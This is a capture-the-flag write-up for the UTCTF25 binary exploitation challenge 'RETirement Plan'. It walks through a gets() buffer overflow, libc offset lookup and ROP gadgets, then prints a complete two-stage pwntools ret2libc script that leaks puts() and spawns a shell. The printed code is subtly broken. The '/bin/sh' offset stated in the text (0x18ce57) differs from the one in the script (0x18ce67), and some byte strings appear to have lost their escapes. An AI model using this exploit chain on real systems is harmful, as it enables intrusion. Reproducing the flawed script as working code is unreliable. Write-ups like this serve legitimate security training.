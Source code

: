 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:

![Binary](decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.
2. **Call main again** using main's addr.
3. **Calculate system and "/bin/sh" addresses** using known offsets.  
4. **Exploit buffer overflow** to call `system("/bin/sh")`.

---

## Finding Main

So now we need to get the main() address    
If we use cylic to crash the program and check it using gdb we can see that the main address is 0x40070d - 247 = **0x400616**
![main](main.png)

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'').strip()
puts_addr = u64(output.ljust(8, b""))

# Calculate addresses
libc_base = puts_addr - 0x6f6a0  
system_addr = libc_base + 0x453a0  
bin_sh = libc_base + 0x18ce67  

# === Stage 2: Exploit buffer overflow to get shell ===
payload2 = b'C' * 48        # Padding  
payload2 += p64(add)        # Overwrite return address  
payload2 += 16 * b'b'       # Extra padding  
payload2 += p64(0x4004a9)   # ret (stack alignment)  
payload2 += p64(0x400793)   # pop rdi; ret  
payload2 += p64(bin_sh)     # Address of "/bin/sh"  
payload2 += p64(system_addr)  # Call system("/bin/sh")  

p.sendline(payload2)

# Get interactive shell
p.interactive()
```

---

## Exploit Execution  

1. **First Payload:**  
   - Overwrites the return address.  
   - Calls `puts()` to leak its address from **GOT**.  
   - Returns to `main()` for second-stage execution.  

2. **Second Payload:**  
   - Calculates **libc base address**.  
   - Computes `system()` and `/bin/sh` addresses.  
   - Calls `system("/bin/sh")` to spawn a shell.  

### Successfully Getting the Flag  
![flag](flag.png)  

---

## Summary  

- **Vulnerability:** Buffer Overflow  
- **Goal:** Call `system("/bin/sh")`  
- **Method:**  
  1. Leak **puts()** address from GOT.  
  2. Compute **libc base address**.  
  3. Find **system()** and `"/bin/sh"` offsets.  
  4. Construct **ROP chain** to call `system("/bin/sh")`.  
  5. **Exploit buffer overflow** to execute the attack.  

---

## Final Thoughts  

This challenge demonstrates:  
- Finding **libc offsets** in ASLR-enabled binaries.  
- Using **ROP gadgets** to manipulate program flow.  
- Exploiting **buffer overflows** to achieve **remote code execution**.
